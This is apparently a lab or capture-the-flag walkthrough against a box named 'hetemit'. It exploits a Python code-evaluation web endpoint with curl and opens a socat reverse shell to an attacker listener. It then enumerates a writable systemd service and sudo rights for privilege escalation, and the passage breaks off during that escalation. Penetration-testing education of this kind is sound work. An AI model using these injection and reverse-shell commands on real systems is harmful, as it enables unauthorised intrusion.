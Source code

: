 ## Exploitation

Knowing that this server is running `Python/3.6.8` (thanks to our `nmap` output), let's attempt to use the highly dangerous `os` module.

```
kali@kali:~$ curl -X POST --data "code=os" http://192.168.120.36:50000/verify
<module 'os' from '/usr/lib64/python3.6/os.py'>
```

The existence of this module all but guarantees we can get a shell. Let's set up a listener.

```
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
```

Next, we'll create a reverse shell connection.

```
kali@kali:~$ curl -X POST --data "code=os.system('socat TCP:192.168.118.8:18000 EXEC:sh')" http://192.168.120.36:50000/verify
```

Nice! We caught a reverse shell.

```
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.36] 44872
python3 -c 'import pty; pty.spawn("/bin/bash")'

[cmeeks@hetemit restjson_hetemit]$ whoami
cmeeks
```

## Escalation

### Enumeration

As we enumerate the system, we'll search for writeable configuration files.

```
[cmeeks@hetemit restjson_hetemit]$ find /etc -type f -writable 2> /dev/null
find /etc -type f -writable 2> /dev/null
/etc/systemd/system/pythonapp.service
```

According to this, we can write to **pythonapp.service**, which appears to be some kind of system service. Next, we'll check our sudo permissions.

```
[cmeeks@hetemit ~]$ sudo -l    
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```
